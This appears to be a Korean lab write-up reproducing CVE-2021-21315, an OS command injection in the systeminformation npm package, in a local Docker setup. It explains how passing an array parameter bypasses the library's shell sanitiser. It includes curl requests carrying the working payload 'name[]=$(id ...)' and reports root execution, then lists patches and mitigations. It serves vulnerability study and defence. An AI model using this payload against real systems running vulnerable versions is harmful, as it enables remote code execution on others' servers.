



# CVE-2021-21315 — systeminformation 커맨드 인젝션 (Node.js)

## 1. 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE ID | [CVE-2021-21315](https://nvd.nist.gov/vuln/detail/CVE-2021-21315) |
| 대상 | npm 패키지 [`systeminformation`](https://www.npmjs.com/package/systeminformation) |
| 영향 버전 | `< 4.34.11`, `>= 5.0.0 < 5.3.1` (본 실습: `5.3.0`) |
| 패치 버전 | `4.34.11`, `5.3.1` 이상 |
| CWE | CWE-78 (OS Command Injection) |
| CVSS 3.1 (NVD) | 7.8 (High) — 본 저장소 평가 기준 Risk Score: 9.8 (아래 근거 참고) |
| KEV 등재 | CISA Known Exploited Vulnerabilities Catalog 등재 |

`systeminformation`은 CPU, 메모리, 프로세스, 서비스 상태 등 시스템 정보를 조회하기 위해 내부적으로 Node.js의 `child_process.exec()`를 사용해 셸 명령을 실행하는 라이브러리다. `si.services()`, `si.inetLatency()`, `si.inetChecksite()`, `si.processLoad()` 등의 함수는 사용자 입력값을 셸 명령 문자열에 그대로 이어붙이기 전에 `sanitizeShellString()`이라는 자체 필터로 위험 문자(`$ ; & | ` \` " ' ( ) < > 등)를 제거한다.

문제는 이 필터가 **입력값이 문자열(String)이라는 것을 전제로 문자 단위(`str[i]`) 반복**을 돈다는 점이다. 공격자가 문자열 대신 **배열(Array)**을 전달하면 `str[i]`는 배열의 인덱스 접근이 되어 배열 원소(임의의 문자열 전체)를 통째로 반환하고, 이 값은 단일 문자와 비교하는 필터 조건(`s[i] === '$'` 등)에 거의 걸리지 않아 그대로 통과한다. 이후 이 값이 `exec()`로 전달되는 셸 명령 문자열에 그대로 연결되면서 임의 OS 명령이 실행된다.

## 2. 환경 구성

```
Node/CVE-2021-21315/
├── docker-compose.yml   # 단일 서비스로 전체 환경 구성
├── Dockerfile           # node:18-bullseye-slim 기반, procps(ps) 설치
├── package.json         # systeminformation 5.3.0 고정 (취약 버전)
├── server.js            # 취약한 Express 데모 앱
├── poc.sh / poc.py       # PoC 스크립트
└── 01~03*.png            # 실행 결과 캡처
```

- **베이스 이미지**: `node:18-bullseye-slim` (Docker Hub 공식 이미지)
- **애플리케이션**: Express로 작성한 최소 데모 서버. `GET /api/getServices?name=<값>` 요청을 받아 `si.services(name)`을 그대로 호출한다 (systeminformation 공식 저장소의 실제 취약 코드 경로를 그대로 사용).
- **의존성**: `express@4.18.2`, `systeminformation@5.3.0` (5.3.1 미만 취약 버전으로 고정)
- 외부의 제어 불가능한 이미지에 의존하지 않으며, `docker compose up --build` 한 번으로 전체 환경이 빌드·구동된다.
- macOS + Docker Desktop 환경에서 `docker compose up --build -d` 한 번으로 클린 빌드 및 재현이 검증되었다 (아래 6번 참고).

## 3. 취약 조건

- 대상 애플리케이션이 `systeminformation` **5.3.1 미만** 버전을 사용해야 한다.
- 애플리케이션이 `si.services()`, `si.inetLatency()`, `si.inetChecksite()`, `si.processLoad()` 중 하나 이상의 함수에 **사용자 입력을 그대로 전달**해야 한다 (본 PoC는 `si.services()` 사용).
- 공격자가 해당 파라미터를 **쿼리스트링 배열 문법**(`name[]=값`)으로 전달할 수 있어야 한다. Express의 기본 쿼리 파서(`qs`)는 `?name[]=x`를 자동으로 배열 `['x']`로 변환해주므로, 별도의 프론트엔드 검증이 없다면 별도 조건 없이 성립한다.
- 인증 여부와 무관하게 익스플로잇 가능 (본 PoC 엔드포인트는 인증 없음 → Attack Vector: Network, Privileges Required: None).
- 컨테이너 프로세스가 기본값(root)으로 구동되는 경우, 인젝션 성공 시 컨테이너 내부 root 권한을 그대로 획득한다 (6번 실행 결과 참고).

## 4. 재현 절차

### 4.1 환경 구동

```bash
git clone <이 저장소 fork 주소>
cd kr-vulhub/Node/CVE-2021-21315
docker compose up --build -d
```

정상 기동 시 `http://localhost:3000` 에서 아래와 같이 응답한다.

```bash
curl http://localhost:3000/
# systeminformation demo app (vulnerable to CVE-2021-21315). Try /api/getServices?name=nginx
```

### 4.2 정상 동작 확인

```bash
curl -s -G "http://localhost:3000/api/getServices" --data-urlencode 'name=nginx'
# [{"name":"nginx","running":false,"startmode":"","cpu":0,"mem":0}]
```

### 4.3 (대조군) 문자열 파라미터로 인젝션 시도 → 차단됨

```bash
curl -s -G "http://localhost:3000/api/getServices" --data-urlencode 'name=$(id > /tmp/pwn_string.txt)'
```

`sanitizeShellString()`이 `$ ( )` 등을 제거하므로 명령이 실행되지 않는다 (응답의 `name` 값에서 해당 문자들이 사라진 것으로 확인 가능).

> curl로 페이로드를 전달할 때는 반드시 `--data-urlencode`를 사용한다. `$()`, 공백 등을 URL에 직접 이어붙이면 curl 자체가 잘못된 URL로 거부(`curl: (3)`)할 수 있다.

### 4.4 배열 파라미터로 필터 우회 → RCE

```bash
curl -s -G "http://localhost:3000/api/getServices" \
     --data-urlencode 'name[]=$(id > /tmp/pwn_array.txt)'

docker exec cve-2021-21315-systeminformation cat /tmp/pwn_array.txt
```

`name[]=`로 전달하면 필터가 우회되어 컨테이너 내부에서 `id` 명령이 실제로 실행된 결과가 파일에 저장된다.

## 5. PoC 코드

`poc.sh` (bash) 또는 `poc.py` (Python)로 3단계 요청을 자동 실행한다.

```bash
# bash
bash poc.sh http://localhost:3000

# 또는 python
pip install requests
python3 poc.py http://localhost:3000
```

핵심 페이로드 (근본 원인 요약):

```
정상(차단됨):   GET /api/getServices?name=$(id)
우회(RCE 성공): GET /api/getServices?name[]=$(id > /tmp/pwn_array.txt)
```

## 6. 실행 결과

macOS + Docker Desktop 클린 환경(`docker compose up --build -d`)에서 실제로 재현한 결과다.

**① 정상 요청** — `name` 파라미터가 문자열로 정상 처리된다.



**② 문자열 파라미터 인젝션 시도 (차단됨)** — `sanitizeShellString()`이 위험 문자를 제거하여 명령이 실행되지 않는다.



**③ 배열 파라미터로 필터 우회 (RCE 성공)** — `name[]=`로 전달 시 필터를 우회, 컨테이너 내부에서 `id` 명령이 실제 실행되어 결과 파일이 생성된다.



실행 결과 `uid=0(root) gid=0(root) groups=0(root)`이 확인되었다 — 이 `docker-compose.yml` 구성에서는 Node 프로세스가 컨테이너 내부에서 기본값인 **root 권한**으로 구동되고 있어, 인젝션 성공이 곧바로 컨테이너 내부 root 셸 획득으로 이어진다. Risk Score 9.8은 이 실측 결과를 근거로 한다.

## 7. 대응 방안

1. **패치 적용 (최우선)**: `systeminformation`을 `5.3.1` 이상(또는 `4.34.11` 이상)으로 업그레이드한다.
   ```bash
   npm install systeminformation@^5.3.1
   ```
2. **입력값 타입 검증**: `si.services()` 등에 전달하기 전, 파라미터가 배열이 아닌 순수 문자열인지 명시적으로 검증한다 (`typeof name === 'string'` 및 `Array.isArray(name)` 체크로 배열 거부).
3. **최소 권한 원칙 (컨테이너 non-root 실행)**: 본 PoC에서 실측했듯 컨테이너가 root로 구동되면 인젝션이 곧 root 셸 획득으로 이어진다. `Dockerfile`에 `USER node` 지시자를 추가해 애플리케이션을 non-root 계정으로 구동하면, 인젝션이 성공하더라도 피해 범위가 해당 계정 권한으로 제한된다.
4. **입력 화이트리스트**: 서비스명 등은 사전에 정의된 값 목록(allowlist)과 대조해 매칭되는 경우만 허용하고, 그 외 요청은 거부한다.
5. **WAF / 런타임 모니터링**: `name[]=` 형태의 배열 파라미터 인젝션 패턴을 탐지하는 룰을 WAF에 추가하고, 컨테이너 런타임에서 비정상적인 자식 프로세스 생성(`ps`, `sh -c` 등)을 모니터링한다.

## 8. 참고 자료

- [NVD — CVE-2021-21315](https://nvd.nist.gov/vuln/detail/CVE-2021-21315)
- [GitHub PR #492 (패치)](https://github.com/sebhildebrandt/systeminformation/pull/492)
- [Snyk — SNYK-JS-SYSTEMINFORMATION-1074913](https://security.snyk.io/vuln/SNYK-JS-SYSTEMINFORMATION-1074913)
- [ForbiddenProgrammer/CVE-2021-21315-PoC](https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC)
- [CISA Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
